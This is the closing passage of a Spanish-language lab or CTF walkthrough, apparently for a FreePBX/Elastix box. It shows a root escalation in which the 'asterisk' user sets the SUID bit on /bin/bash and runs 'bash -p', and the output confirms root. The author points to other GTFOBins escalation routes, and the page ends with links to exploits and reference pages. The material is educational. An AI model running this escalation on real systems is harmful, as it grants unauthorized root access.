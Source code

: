 * Probando CHMOD:
```
ls -l /bin/bash
-rwxr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
sudo chmod u+s /bin/bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
bash -p
id
uid=100(asterisk) gid=101(asterisk) euid=0(root)
whoami
root
```
Por lo que leí en **GTFOBins**, se puede escalar usando chown, yum y service. ¡Intentalo!


<br>
<br>
<div style="position: relative;">
 <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>

* https://stackoverflow.com/questions/63111167/ssl-error-unsupported-version-when-attempting-to-debug-with-iis-express
* https://www.exploit-db.com/exploits/18650
* https://github.com/OJ/gobuster/issues/129
* https://www.offsec.com/vulndev/freepbx-exploit-phone-home/
* https://www.kali.org/tools/sipvicious/
* https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution
* https://gtfobins.github.io/
* https://byte-mind.net/sipvicious-utilidad-de-auditoria-para-sistemas-voip/
* https://products.containerize.com/es/transactional-email/cyrus-imap/
* https://www.3cx.es/voip-sip/ip-pbx-overview/
* https://www.dommia.com/es/faqs/que-es-el-pop3
* https://support.microsoft.com/es-es/office/-qu%C3%A9-son-imap-y-pop-ca2c5799-49f9-4079-aefe-ddca85d5b1c9
* https://www.masip.es/blog/que-es-asterisk/
* https://www.masip.es/blog/asterisk-o-freepbx-para-que-sirven-y-en-que-se-diferencian/
* https://www.cisco.com/c/es_mx/solutions/small-business/resource-center/collaboration/what-is-a-pbx.html#~what-can-a-pbx-do
* https://packetstormsecurity.com/files/89823/vtiger-CRM-5.2.0-Shell-Upload.html
* https://www.exploit-db.com/exploits/9450


<br>
# FIN
